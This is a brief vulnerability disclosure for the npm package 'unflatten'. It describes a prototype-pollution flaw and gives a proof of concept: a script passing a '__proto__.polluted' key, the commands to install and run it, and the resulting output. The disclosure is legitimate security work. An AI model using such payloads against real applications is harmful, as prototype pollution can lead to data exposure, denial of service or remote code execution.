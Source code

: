 # Description

`unflatten` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior using a `__proto__` payload, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var unflatten = require("unflatten")
unflatten({'__proto__.polluted': true});
console.log(polluted); 
```

2. Execute the following commands in another terminal:

```bash
npm i unflatten # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
true
```
